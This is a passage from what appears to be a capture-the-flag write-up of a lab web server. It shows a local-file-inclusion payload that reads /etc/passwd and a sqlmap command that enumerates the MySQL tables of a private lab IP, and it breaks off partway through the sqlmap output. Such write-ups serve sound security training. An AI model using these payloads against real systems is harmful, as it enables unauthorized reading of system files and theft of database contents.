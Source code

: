 Inspection of the Web Application revealed the blog used a URL path of <code>/~andy/</code>, indicating it was serving an Apache home dir - username enumeration is possible. Further inspection of the web application indicated the use of GET requests <code>/?page=contact</code>,  


#### LFI Exploit

The string <code>index.html?page=../../../../../../etc/passwd%00</code> exposed the contents on the unix passwd file.

![OWASP DirBuster](/img/blog/ctf4/LFI.png)

RFI did not appear possible.


## SQLMap Enumeration

SQLMap was leveraged to enumerate, inject and dump the MySQL databases on the target.

### SQLMap

Using the GET 'id' as the injection point, the following SQLMap command was used to successfully list tables for all databases on the target system.

{% highlight bash %}
sqlmap -u "http://192.168.30.147/index.html?page=blog&title=Blog&id=2" -p id --tables
{% endhighlight %}

Full SQLMap Command Output:

{% highlight bash %}

_
___ ___| |_____ ___ ___  {1.0-dev-nongit-20150826}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
|_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:05:38

[12:05:38] [INFO] testing connection to the target URL
[12:05:38] [INFO] testing if the target URL is stable